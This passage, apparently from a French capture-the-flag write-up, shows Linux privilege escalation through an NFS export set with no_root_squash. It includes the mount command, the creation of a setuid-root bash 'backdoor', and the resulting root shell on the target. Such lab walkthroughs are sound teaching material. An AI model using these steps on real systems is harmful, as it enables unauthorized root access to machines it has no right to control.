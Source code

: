 ```plain
[-] NFS config details:
-rw-r--r-- 1 root root 423 Jun  4 15:02 /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/home/user5 *(rw,no_root_squash)
```

Depuis ma machine je monte le partage en root et j'y place un shell setuid 0. Ma machine est celle du CTF sont sous la même architecture (x86\_64) donc aucune difficulté.  

```plain
root@kwak:/tmp# cd
root@kwak:~# cd /tmp/
root@kwak:/tmp# mkdir yolo
root@kwak:/tmp# mount -t nfs 192.168.3.2:/home/user5 yolo
root@kwak:/tmp# cd yolo/
root@kwak:/tmp/yolo# cp /bin/bash backdoor
root@kwak:/tmp/yolo# chmod 4755 backdoor
```

Et depuis la cible :  

```plain
 user5  ~  ls -l
total 200
-rwsr-xr-x 1 root  root  154072 Jul  6 21:12 backdoor
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Desktop
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Documents
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Downloads
-rwxrwxr-x 1 user5 user5     34 Jul  6 19:06 ls
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Music
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Pictures
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Public
-rwsr-xr-x 1 root  root    8392 Jun  4 15:57 script
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Templates
drwxr-xr-x 2 user5 user5   4096 Jun  4 15:01 Videos
 user5  ~  ./backdoor -p
# id
uid=1004(user5) gid=1004(user5) euid=0(root) groups=1004(user5)
```

User7 vers root
---------------

Faisant partie du groupe root on va bien trouver un fichier quelconque pour notre escalade de privilège...  

